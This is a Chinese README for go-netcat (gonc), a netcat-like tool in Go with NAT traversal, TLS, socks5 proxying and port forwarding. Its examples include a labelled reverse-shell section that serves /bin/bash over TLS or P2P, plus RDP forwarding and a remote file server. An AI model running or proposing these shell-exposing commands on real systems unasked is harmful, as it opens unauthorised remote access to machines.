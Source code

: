 ## go-netcat 简介

golang版 netcat, 更方便的建立点对点通信。

有以下特点：

 - 🔁 自动化内网穿透：使用 -p2p 自动实现 TCP/UDP 的 NAT 打洞与点对点连接，无需手动配置，依赖公共 STUN 和 MQTT 服务交换地址信息。

 - 🚀 UDP 稳定传输通道：集成 KCP 协议，TCP无法穿透NAT的情况，用基于UDP的KCP也能保持通信的可靠性。

 - 🔒 加密支持：支持 TCP 的 TLS 和 UDP 的 DTLS 加密传输。

 - 🧩 可嵌入服务程序：通过 -exec 将工具作为子服务启动，结合多路复用能力，支持流量转发、Socks5代理和http文件服务等场景。

 - 🖥️ 伪终端支持：配合 -exec 和 -pty，为类似 /bin/sh 的交互式程序提供伪终端环境，增强 shell 控制体验（支持 TAB、Ctrl+C 等）。

 - 💻 原始输入模式：-pty 启用控制台 raw 模式，在获取 shell 时提供更贴近原生终端的操作体验。

 - 📈 实时速度统计：提供发送与接收方向的实时速度统计，便于测试传输性能。


## 例子

- 这个工具可以像nc那样用，例如

    `gonc.exe www.baidu.com 80`

    `gonc.exe -tls www.baidu.com 443`


- 用TCP直接在两个内网P2P通信，要自己约定一个唯一ID，例如 randomString ，每次用都随机换ID避免和别人一样。

    `gonc.exe -p2p randomString`

    另一端用也完全一样的的参数，程序会自己尝试TCP或UDP建立通信，自己协商角色（tls client/server）并完成TLS协议

    `gonc.exe -p2p randomString`


- 支持使用socks5代理

    `gonc.exe -s5 s.s.s.s:port x.x.x.x 1234`

- 反弹shell，类UNIX支持pseudo-terminal shell 

    监听

    `gonc -tls -pty -exec /bin/bash -l 1234`

    连接获得shell(windows和linux都支持console raw模式，该模式下支持TAB、ctrl+c等输入)

    gonc.exe -tls -pty x.x.x.x 1234

    还可以P2P的方式反弹shell：

    `gonc -tls -pty -exec /bin/bash -p2p-tcp randomString`

    另一端这样可以得到shell

    `gonc -tls -pty -p2p-tcp randomString`


- 还可以像socat那样建立左右两个通道转发数据

    `gonc.exe -keep-open -exec "./gonc -tls www.baidu.com 443" -l 8000`
    
    另一端用

    `gonc.exe 127.0.0.1 8000 > NUL`

- 发送和统计传输速度，内置/dev/zero和/dev/urandom实现，这样windows下也可以用/dev/zero和/dev/urandom

    `gonc.exe -send /dev/zero -progress x.x.x.x 1234`

    `IN: 76.8 MiB (80543744 bytes), 3.3 MiB/s | OUT: 0.0 B (0 bytes), 0.0 B/s | 00:00:23`

    另一端用

    `gonc.exe -l 1234 > NUL`

- 建立P2P隧道并提供端口转发、socks5代理或http文件服务器
    
    端口转发

    `gonc.exe -p2p randomString -exec "-app-mux 127.0.0.1 3389"`

    或

    `gonc.exe -p2p randomString -exec "-app-mux socks5"`

    另一端(本机监听端口)

    `gonc.exe -p2p randomString -exec "-app-mux -l 9999"`


    http文件服务器

    `gonc.exe -p2p randomString -httpserver c:/RootDir`

    另一端(本机监听端口)，那么浏览器访问本机9999端口可实现浏览对端的文件列表和下载文件

    `gonc.exe -p2p randomString -download 9999"`
